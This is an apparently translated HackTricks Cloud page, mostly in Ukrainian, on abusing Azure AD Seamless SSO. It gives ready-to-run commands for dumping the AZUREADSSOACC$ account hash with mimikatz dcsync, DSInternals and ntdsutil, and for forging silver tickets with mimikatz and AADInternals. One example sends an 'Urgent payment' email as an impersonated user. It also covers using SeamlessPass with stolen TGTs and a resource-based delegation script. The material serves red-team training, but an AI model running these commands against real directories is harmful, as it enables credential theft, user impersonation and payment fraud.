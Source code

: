 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) автоматично **авторизує користувачів, коли вони на своїх корпоративних пристроях**, підключених до вашої корпоративної мережі. Коли ця функція увімкнена, **користувачам не потрібно вводити свої паролі для входу в Azure AD**, і зазвичай навіть вводити свої імена користувачів. Ця функція забезпечує вашим користувачам легкий доступ до ваших хмарних додатків без необхідності в додаткових компонентів на місці.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

В основному Azure AD Seamless SSO **авторизує користувачів**, коли вони **на ПК, приєднаному до локального домену**.

Цю функцію підтримують як [**PHS (Password Hash Sync)**](phs-password-hash-sync.md), так і [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO використовує **Kerberos** для аутентифікації. Коли налаштовано, Azure AD Connect створює **обліковий запис комп'ютера під назвою AZUREADSSOACC`$`** в локальному AD. Пароль облікового запису `AZUREADSSOACC$` **надсилається у відкритому вигляді до Azure AD** під час налаштування.

**Квитки Kerberos** **шифруються** за допомогою **NTHash (MD4)** пароля, а Azure AD використовує надісланий пароль для розшифровки квитків.

**Azure AD** надає **кінцеву точку** (https://autologon.microsoftazuread-sso.com), яка приймає **квитки** Kerberos. Браузер комп'ютера, приєднаного до домену, пересилає квитки на цю кінцеву точку для SSO.

### On-prem -> cloud

**Пароль** користувача **`AZUREADSSOACC$` ніколи не змінюється**. Тому адміністратор домену може скомпрометувати **хеш цього облікового запису** і потім використовувати його для **створення срібних квитків** для підключення до Azure з **будь-яким синхронізованим локальним користувачем**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
З хешем ви тепер можете **генерувати срібні квитки**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Щоб використати срібний квиток, слід виконати наступні кроки:

1. **Запустіть браузер:** Потрібно запустити Mozilla Firefox.
2. **Налаштуйте браузер:**
* Перейдіть до **`about:config`**.
* Встановіть параметр для [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) на вказані [значення](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Доступ до веб-додатку:**
* Відвідайте веб-додаток, інтегрований з доменом AAD організації. Загальним прикладом є [Office 365](https://portal.office.com/).
4. **Процес аутентифікації:**
* На екрані входу потрібно ввести ім'я користувача, залишивши поле пароля порожнім.
* Щоб продовжити, натисніть TAB або ENTER.

{% hint style="success" %}
Це не обходить MFA, якщо вона увімкнена
{% endhint %}

#### Варіант 2 без dcsync - SeamlessPass

Цей напад також можна виконати **без атаки dcsync**, щоб бути більш непомітним, як [пояснено в цьому блозі](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Для цього вам потрібно лише одне з наступного:

* **TGT скомпрометованого користувача:** Навіть якщо у вас його немає, але користувач був скомпрометований, ви можете отримати один, використовуючи трюк з делегуванням фальшивого TGT, реалізований у багатьох інструментах, таких як [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) та [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Золотий квиток:** Якщо у вас є ключ KRBTGT, ви можете створити TGT, який вам потрібен для атакованого користувача.
* **NTLM хеш або AES ключ скомпрометованого користувача:** SeamlessPass зв'яжеться з контролером домену з цією інформацією, щоб згенерувати TGT.
* **NTLM хеш або AES ключ облікового запису AZUREADSSOACC$:** З цією інформацією та ідентифікатором безпеки (SID) користувача, якого ви атакуєте, можливо створити сервісний квиток і аутентифікуватися в хмарі (як виконано в попередньому методі).

Нарешті, з TGT можливо використовувати інструмент [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) з:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Додаткову інформацію про налаштування Firefox для роботи з безшовним SSO можна [**знайти в цьому блозі**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Створення квитків Kerberos для користувачів тільки в хмарі~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Якщо адміністратори Active Directory мають доступ до Azure AD Connect, вони можуть **встановити SID для будь-якого користувача в хмарі**. Таким чином, квитки Kerberos **можна створити також для користувачів тільки в хмарі**. Єдина вимога полягає в тому, що SID є правильним [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Зміна SID для адміністраторів тільки в хмарі тепер **блокована Microsoft**.\
Для отримання інформації перевірте [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Хмара через обмежену делегацію на основі ресурсів <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Будь-хто, хто може керувати обліковими записами комп'ютерів (`AZUREADSSOACC$`) у контейнері або OU, в якому знаходиться цей обліковий запис, може **налаштувати обмежену делегацію на основі ресурсів для облікового запису та отримати до нього доступ**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Я у вашому хмарі, читаю електронні листи всіх - злом Azure AD через Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Вивчайте та практикуйте злом AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте злом GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться трюками зламу, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
